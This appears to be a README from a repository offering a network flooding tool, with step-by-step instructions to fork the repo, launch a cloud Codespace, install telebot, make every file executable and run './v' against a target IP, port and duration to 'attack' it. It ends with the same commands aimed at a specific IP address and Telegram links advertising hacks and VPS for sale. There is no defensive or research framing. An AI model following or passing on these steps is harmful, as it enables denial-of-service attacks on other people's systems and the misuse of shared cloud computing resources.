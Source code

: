 All people use old or new script if works that's fine!

If u want to attack directly using terminal follow some steps - 
Click on fork  repository! After create codespace of 4 core after creating open terminal
 just run 2 command only one time 
1- pip install telebot
2- chmod +x *

Then attack with command by- 
./v ip port time time 
example-
./v 20.192.168.20 23477 200 200


U have to determine the time two time 
Then delite terminal bash to stop attack 
  -thankyou keep supporting
Must join- venomCHA7.t.me
Wanna buy hacks vps or anything dm - venomXcrazy.t.me
pip install telebot
chmod +x *
./v 4.213.64.206 15787 300 300
./v 4.213.64.206 15787 300 300
